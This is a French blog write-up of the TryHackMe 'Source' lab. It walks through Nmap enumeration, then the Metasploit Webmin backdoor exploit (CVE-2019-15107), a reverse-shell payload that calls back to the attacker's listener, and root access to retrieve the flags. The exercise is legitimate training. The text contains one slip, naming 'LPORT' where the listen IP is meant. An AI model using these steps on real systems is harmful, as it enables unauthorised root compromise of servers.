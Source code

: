 ```yaml
---
author: Adrien
id: 1
licence: CC
title: 'WriteUp - "Source" de THM'
categories: "Writeups"
---
```


Petit writeup de la très (très) simple machine "Source" du site [TryHackMe.com](https://tryhackme.com).

## Énumération

Comme toujours lors de mes CTF je commence par une petite énumération, d'abord avec Nmap tout en testant s'il y a un site sur le port par défaut (80).

Apparement pas de site sur le port 80, donc pas de gobuster.

![No website](/assets/images/1_1_no80.webp)

Voyons voir ce que nous sort Nmap...

```shell
nmap -A -oN nmap_a.txt 10.10.253.146 
```

```
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Je fais toujours un `-oN nmap_a.txt` pour garder une trace du Nmap au cas où.

Du coup un port 22  avec 7.6p1 qui ne nous apporte pas grand chose après une verification sur [Exploit-DB](https://www.exploit-db.com/search?q=openssh), par contre le port 10000 avec webmin *1.890* d'après on a quelques trucs intéressants.

![Webmin Exploit DB](/assets/images/1_2_exploitdb.webp)

J'ai d'abord essayé le 2ème lien, car les autres utilisent Metasploit et que je préfère éviter quand je peux. Le souci c'est que c'est juste une vérification de vulnérabilité et qu'en plus je n'ai pas réussi à lancer le script correctement.

Je suis donc passé au premier lien qui indique "**<** 1.920", sur metasploit j'ai cherché le script mais il n'y était pas, je l'ai donc téléchargé et ajouté dans `/home/<user>/.msf4/modules/webmin` (il faudra créer le dossier webmin, et il est possible que vous ayez le dossier `.msf5` au lieu de `.msf4`). Une fois lancé, je regarde les options et me rend compte qu'il faut un login et un mot de passe... Mauvaise pioche encore !

Cette fois j'essaie le troisième qui indique "Webmin 1.920 - Unauthenticated Remote Code Execution", la mauvaise nouvelle c'est qu'il n'y a pas de "<", mais la bonne c'est le "*Unauthenticated* " ! En lisant l'exploit on apprend que c'est une backdoor laissé par un ou plusieurs pirates et que cet exploit fonctionne de la version 1.890 à 1.920 ! Ouf ! Voici sa CVE : [CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107).
Du coup on va chercher sur Metasploit :

```shell
msfconsole -q
```

```
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
```

## Exploitation

Cool, il y est déjà donc on peut sélectionner le module 2 qui correspond à peu près au niveau de la date (2019-08-10) et indique "backdoor" :

```
msf5 > use 2
[*] Using configured payload cmd/unix/reverse_perl
```

Affichons les options :

```
msf5 exploit(linux/http/webmin_backdoor) > options

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Il faudra donc changer :

- **RHOSTS** pour l'ip du serveur, dans mon cas `10.10.253.146`.

- **SSL** qu'il faut mettre à `true`, on peut le voir car si on passe par le navigateur pour aller sur webmin on nous indique qu'il faut passer en https.

- **LPORT** pour notre ip, comme TryHackMe utilise un VPN on a juste à spécifier l'ip qui se trouve dans la partie `tun0` de la commande `ip addr`. Dans le cas d'une attaque sans réseau privé (local ou non) il faut préciser l'ip publique de la boxe internet (visible sur des sites comme [myip.com](https://www.myip.com/)) et faire du *Port Forwarding* vers notre machine.

Pour spécifier une option il faut faire `set <NOM_DE_L'OPTION> <VALEUR>`, par exemple `set RHOSTS 10.10.253.146`.

On a plus qu'à lancer l'exploit !

```shell
msf5 exploit(linux/http/webmin_backdoor) > exploit
```

```
[*] Started reverse TCP handler on xx.x.xxx.xxx:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (xx.x.xxx.xxx:4444 -> 10.10.253.146:38200) at 2020-08-27 12:45:04 -0400
```

## Récupération des données

Commençons par voir si l'exploit fonctionne bien et quel utilisateur nous avons :

```shell
id
uid=0(root) gid=0(root) groups=0(root)
```

Woaw, on est déjà root ! ^^

On peut optionnellement essayer d'avoir un shell "plus intuitif" :

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bien y a plus qu'à récupérer les flags !

```
root@source:/usr/share/webmin/# ls /home
dark

root@source:/usr/share/webmin/# ls /home/dark
user.txt
webmin_1.890_all.deb

root@source:/usr/share/webmin/# cat /home/dark/user.txt
THM{XXXXXXXXXXX}

root@source:/usr/share/webmin/# ls /root
root.txt

root@source:/usr/share/webmin/# cat /root/root.txt
THM{XXXXXXXXXXX}
```

## Conclusion

Et bien ce fut plutôt facile ! Mais qu'est-ce qu'on a vu ?
Un Nmap classique, de la recherche sur Exploit-DB et un peu de Metasploit et comment "améliorer" un shell avec python.

Voilà, j'espère que ce WriteUp vous a plu :D

Si vous avez des avis, des conseils, des questions, des corrections ou que vous voulez simplement discuter n'hésitez pas à me joindre sur discord : `{{ site.data.globals.discordtag }}` ou par e-mail : `adrien.luitot[at]mailo.com`
